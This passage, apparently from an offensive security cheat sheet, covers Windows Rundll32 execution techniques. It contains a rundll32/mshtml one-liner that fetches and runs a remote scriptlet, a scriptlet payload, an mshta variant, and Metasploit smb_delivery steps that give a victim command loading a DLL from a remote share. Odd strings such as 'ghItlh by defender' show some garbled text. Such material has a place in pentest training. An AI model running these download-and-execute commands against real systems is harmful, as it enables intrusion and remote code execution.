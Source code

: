 ```bash
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```
**ghItlh by defender**

**Rundll32 - sct**

[**ghItlh**](https://gist.github.com/Arno0x/e472f58f3f9c8c0c941c83c58f254e17)
```xml
<?XML version="1.0"?>
<!-- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://webserver/scriplet.sct");window.close();  -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```
#### **Rundll32 - Metasploit**

Rundll32 is a Windows utility that allows the execution of DLL files. Metasploit is a popular framework used for penetration testing and exploiting vulnerabilities. By leveraging the Rundll32 utility in combination with Metasploit, an attacker can execute malicious code on a target system.

To use Rundll32 with Metasploit, follow these steps:

1. Generate a payload using Metasploit's payload generator.
2. Save the payload as a DLL file.
3. Transfer the DLL file to the target system.
4. Use Rundll32 to execute the DLL file on the target system.

The following command can be used to execute the DLL file using Rundll32:

```
rundll32.exe <path_to_dll_file>,<entry_point_function>
```

Replace `<path_to_dll_file>` with the path to the DLL file on the target system, and `<entry_point_function>` with the name of the function to be executed within the DLL.

By exploiting vulnerabilities and using Rundll32 with Metasploit, an attacker can gain unauthorized access to a target system and perform various malicious activities. It is important to note that these techniques should only be used for ethical purposes, such as penetration testing, and with proper authorization.
```bash
use windows/smb/smb_delivery
run
#You will be given the command to run in the victim: rundll32.exe \\10.2.0.5\Iwvc\test.dll,0
```
**Rundll32 - Koadic**
